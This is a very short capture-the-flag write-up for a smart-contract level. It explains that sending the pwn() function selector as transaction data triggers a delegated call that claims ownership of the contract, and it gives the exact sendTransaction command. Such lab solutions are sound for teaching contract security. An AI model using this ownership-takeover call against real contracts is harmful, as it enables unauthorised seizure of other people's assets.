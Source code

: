 To solve this lvl we need to pass pwn() function indetifier as data in sendTransaction(). Contract will call pwn() and claim us ownership

await contract.sendTransaction({data: '0xdd365b8b'})
